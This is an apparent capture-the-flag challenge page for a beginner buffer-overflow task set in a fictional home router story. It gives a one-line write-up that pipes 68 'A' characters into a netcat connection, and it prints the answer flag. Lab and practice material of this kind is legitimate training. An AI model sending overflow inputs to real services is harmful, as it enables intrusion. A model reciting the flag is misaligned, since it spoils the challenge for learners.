 
# Too easy to be true

## Category
Exploitation

## Estimated difficulty
Easy

## Description
Just overflow the buffer and you got the flag :)

## Scenario
John purchased a new router for his home network that promised to provide fast and reliable internet. He accessed the web interface to configure the router's settings, including the Wi-Fi password.

However, John noticed that the web interface seemed too easy to use, and the setup process was too quick and simple. He thought to himself, "This seems too easy to be true."

After doing some research, John discovered that the router had a buffer overflow vulnerability in its web interface. An attacker could exploit this vulnerability to inject malicious code into the router and potentially gain control of the entire network.

John was alarmed and immediately replaced the router with a more secure one. He learned the importance of being cautious about devices that seem too easy to use or too good to be true and always checking for potential security vulnerabilities before using them.

## Write-up
python2 -c 'print("A"*68)' | nc IP PORT

## PoC script
-

## Flag
CSC{st1ll_it_w4s_tru3}

## Creator
Julian Dotreppe

## Creator bio
-